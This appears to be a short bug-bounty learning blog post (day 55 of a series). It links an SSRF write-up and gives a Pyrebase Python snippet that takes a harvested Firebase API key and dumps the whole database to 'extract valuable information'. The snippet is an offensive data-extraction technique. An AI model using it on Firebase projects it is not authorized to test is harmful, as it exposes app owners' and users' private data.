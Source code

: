 ```yaml
---
title:  "Day 55/100 Hack and Improvement"
date: 2020-06-24
tags: [Penetration Testing, Hacking, Bug Bounty, Offensive Security]
header: 
  image: "assets/images/100dl/day55/header.jpg"
---
```


Dat 55 comes with a write up for an SSRF bug and a small script gathered from [Ashish Kunwar](https://twitter.com/D0rkerDevil) that will test firebase API Keys.

## Tales of a full SSRF bug

From [Rajesh Ranjan](https://twitter.com/eh_rajesh). Here is the link of the [article](https://medium.com/@mase289/a-tale-of-my-first-ever-full-ssrf-bug-4fe71a76e9c4).

## Pyrebase that Fires Firebase

From [Sam (CoffeeJunkie)](https://twitter.com/coffeejunkiee_). This tip has been gotten from [Ashish Kunwar](https://twitter.com/D0rkerDevil). in order to extract valuable information once the API has been gathered, you can run the following python3 code.

### First install Pyrebase

```python
pip3 install pyrebase 
python3 -m pip install pyrebase
```

### Time to extract some data!
```python
import pyrebase

config = {
  "apiKey": "FIREBASE_API_KEY",
  "authDomain": "http://domain.firebaseapp.com",
  "databaseURL": "http://domain.firebaseio.com",
  "storageBucket":"http://domain.appspot.com",
}
firebase = pyrebase.initialize_app(config)

db = firebase.database()

print(db.get())
```

